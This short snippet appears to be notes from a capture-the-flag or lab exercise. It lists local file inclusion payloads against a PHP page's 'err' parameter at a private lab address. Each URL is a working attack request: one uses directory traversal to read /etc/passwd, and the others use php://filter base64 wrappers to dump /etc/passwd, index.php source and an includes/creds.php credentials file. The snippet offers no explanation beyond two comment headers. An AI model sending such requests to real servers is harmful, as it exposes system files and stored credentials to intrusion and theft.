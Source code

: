 # PHP Filter
http://10.10.140.225/index.php?err=../../../../../../../../etc/passwd
# PHP to base64
http://10.10.140.225/index.php?err=php://filter/convert.base64-encode/resource=/etc/passwd
http://10.10.140.225/index.php?err=php://filter/convert.base64-encode/resource=index.php
http://10.10.140.225/index.php?err=php://filter/convert.base64-encode/resource=./includes/creds.php
